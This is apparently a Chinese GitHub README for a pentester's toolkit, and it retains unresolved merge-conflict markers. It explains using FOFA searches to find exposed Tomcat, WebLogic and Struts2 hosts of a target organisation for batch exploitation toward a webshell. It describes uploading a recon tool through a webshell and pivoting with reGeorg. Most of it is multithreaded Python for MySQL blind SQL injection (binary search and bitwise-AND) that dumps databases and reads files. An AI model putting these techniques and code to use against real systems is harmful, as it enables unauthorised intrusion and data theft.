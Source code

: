 <<<<<<< HEAD




# SomeTools

**自己使用的一些脚本和工具**

|             脚本              |       功能        |
| :---------------------------: | :---------------: |
|    blind_inject_getdata.py    |  二分法盲注利用   |
| mul_blind_injdect_dumpdata.py | 多线程and盲注利用 |
|fofa_search.py | 通过fafa批量爬取检索结果 |
| WebFinder.py | 获取存活的WEB URL以及对应的标题|

---

**fofa_search**

  该脚本通过多线程爬取搜索页面的链接信息，输入参数为网页登录后的cookie信息，可通过浏览器F12 查看网络连接复制获取，支持主机和web查询，在对目标组织进行渗透的时候可以使用该脚本检索目标主机存在weblogic\struts2\tomcat\致远OA等组件的主机，然后结合poc-t\pocsuite\pocstart等漏洞检测框架批量检测，运气好的话很容易就能拿到webshell.

example:
  以下对目标组织检索tomcat主机检索然后利用pocstart批量检测并发现文件下载漏洞。

  ```
  fofa dork:org="XXX Limited" && region="CN" && protocol=="ajp"
  ```
  ![image-20200524100713379](images\fofa_v2.png)
  ![](images\test_1.png)

*ReadMe*：https://forum.90sec.com/t/topic/1051

---

**WebFinder**

  该脚本主要是为了检索目标组织存活的web host以及对应的web标题，通过标题信息粗略定位下一步渗透的目标系统，通常用于内网渗透过程的信息收集，对于只能通过webshell 操作的目标，可以使用pyinstaller打包上传到目标机器进行内网信息收集，然后利用regeorg代理渗透内网。附件也提供了一个打包好的exe
 ![](images/image-20200524001731394.png)

---

**BlindInject_dump**

前段时间先知发了一篇关于盲注效率分析的文章(https://xz.aliyun.com/t/7575)，里面提到了三种盲注利用方法：**遍历法|二分法|与运算**，这里分享一下mysql盲注场景下利用二分法和与运算注入数据通用脚本。

* **实现功能**

| API                  | 功能                           |
| :------------------- | :----------------------------- |
| get_current_database | 获取当前数据库                 |
| get_current_user     | 获取当前用户                   |
| get_dbs              | 获取所有数据库                 |
| get_tables           | 获取指定数据库表名             |
| get_columns          | 获取指定数据表列名             |
| dump                 | 获取指定列数据                 |
| dump_all             | 自动化dump指定数据库的所有数据 |
| read_file            | 读取文件                       |

 ![](images/image-20200529201837138.png)

# 二分法：

这种方法比较简单，就是重复搜索判断某一个值是否介于一个区间，直至区间消失也就是区间左边界等于右边界的时候的边界值就是我们要寻找的值。

```python
def double_search(table_name, col_name, in_limit='0', index="", query =query,left_number=0, right_number=0):
    while True:
        payload = get_payload(table_name, col_name, in_limit, index, value=str(right_number), query=query)
        text = send_data(payload)
        if find_success(success_flag, text):
            left_number = right_number
            right_number = 2*right_number
        else:
            break

    while left_number < right_number:
        mid = int((left_number + right_number) / 2)
        payload = get_payload(table_name,col_name,in_limit,index,value=str(mid),query =query)
        text =send_data(payload)
        if find_success(success_flag, text):
            left_number = mid
        else:
            right_number = mid
        if left_number == right_number - 1:
            payload = get_payload(table_name, col_name, in_limit, index, value=str(mid), query=query)
            text = send_data(payload)
            if find_success(success_flag, text):
                mid += 1
                print('found')
                break
            else:
                break
    return mid
```

# 与运算：

一个字符是由8个二进制位构成，可以使用每个二进制位分别和1进行与操作，在两个操作数都是1的情况下结果才为1，所以利用这个特性可以分别获取每个二进制位进而得到该字符的ascii，当然实际编写代码的时候，我们肯定不是获取每一个二进制位来判定返回值的真假，对于一个10进制数 v,我们知道

```v= a*2^7+b*2^6+c*2^5+d*2^4+e*2^3+f*2^2+g*2^1+h*2^0  ```，其中[a-h]是八个二进制位，只需要进行 v&[2^i],i 属于 [0-7]，然后分别把得到的结果相加就可以得到 v，为了能够方便的多线程并发，可以假设[a-h]都是1,当假设成立的时候，条件为真，可以不做处理，否则将对应的二进制值置为0，最后按照前文计算公式得到v的值，进而获取全部数据。

![image-20200529205101029](images\image-20200529205101029.png)

```python
def get_values_by_and_blind(table_name, col_name, in_limit='0', query =query):
    cu_query = query
    len = int(get_length(table_name, col_name, in_limit,cu_query))
    text = ""
    if len > 0:
        payloads = []
        for  i in range(1,len+1):
            for j in range(8):
                value = 2 ** j
                payload = get_payload(table_name, col_name, in_limit, str(i), value=str(value), query=query)
                data = {}
                data['index'] = i
                data['value'] = value
                data['payload'] = payload
                payloads.append(data)
        dump = DATA_AND(payloads)  # params(threadnums,url_lists)
        dump._start()
        group_list = []
        indexs  = list(set([i.get('index') for i in payloads]))
        for index in indexs:
            temp = []
            for payload in payloads:
                if payload.get('index') == index:
                    temp.append(payload['value'])
            group_list.append(temp)
        _ = [sum(v) for v in group_list]
        text = ''.join([chr(v) for v in _])
        print("In program: " + text)
    return text


class DATA_AND(object):
    def __init__(self, payloads):
        self.threads = conf['thread_num']
        self.payloads = payloads
        self.mutex = Lock()

    def run(self, payload):
        try:
            data = payload['payload']
            text = send_data(data)
            if not find_success(success_flag, text):
                value = 0
                self.mutex.acquire()
                payload['value'] = value
                self.mutex.release()
        except Exception as e:
            print e.message

    def _start(self):
        try:

            pool = ThreadPool(processes=self.threads)
            pool.map_async(self.run, self.payloads).get(0xffff)
            pool.close()
            pool.join()

        except Exception as e:
            print e
        except KeyboardInterrupt:
            print '[!] user quit!'
            sys.exit(1)
```
![image-20200529234700625](images\image-20200529234700625.png)

![image-20200529234735321](images\image-20200529234735321.png)

*ReadMe* : https://forum.90sec.com/t/topic/1076

---
=======
# SomeTools
自己使用的一些脚本和工具.

## fofa_search.py
fofa 采集脚本
![1](https://github.com/ggg4566/SomeTools/blob/master/images/fofa_.png)
>>>>>>> a15c3c414f80b2332e92b9e44d9bda1ca3cd942e
